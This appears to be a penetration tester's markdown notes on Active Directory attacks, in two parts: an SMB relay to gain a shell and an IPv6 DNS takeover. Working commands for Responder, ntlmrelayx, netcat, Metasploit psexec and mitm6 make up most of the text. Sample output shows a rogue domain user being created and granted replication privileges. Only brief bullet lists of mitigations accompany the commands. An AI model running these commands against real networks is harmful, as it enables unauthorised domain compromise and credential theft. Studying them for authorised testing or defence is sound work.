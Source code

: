 #### Gaining Shell

```
sudo responder -I eth0 -dw
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
sudo nc 127.0.0.1 11000
```

```bash
msfconsole/windows/smb/psexec
    execute -f cmd.exe -i -H

```

### Mitigation
- Enable SMB signing
- Disable NTLM auth
- limit domain / local admins
- LDAP relay
- MiTM6
- difficult to detect

#### IPv6 DNS Takeover

- More reliable
- Probable IPv6 DNS hole
- Authentication to DC via LDAP
- [mitm6:](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [Combining NTLM Relays and Kerberos Delegation:](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

```bash
ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo git clone https://github.com/dirkjanm/mitm6 /opt/mitm6
sudo python3 mitm6.py -d basejump.local

sudo ntlmrelayx.py -6 -t ldaps://192.168.131.131 -wh fakewpad.basejump.local -l lootme

sudo python3 mitm6.py -d basejump.local
```
> Output
```
[*] Adding new user with username: YLzmriDGhj and password: ,JtM/MDi:z1G+OO result: OK
[*] Querying domain security descriptor
[*] Success! User YLzmriDGhj now has Replication-Get-Changes-All privileges on the domain

```

#### IPv6 Attack Defenses

- Disable WPAD WinHttpAutoProxySvc service
- LDAP signing / LDAPS channel binding
- Block Admin Delegation
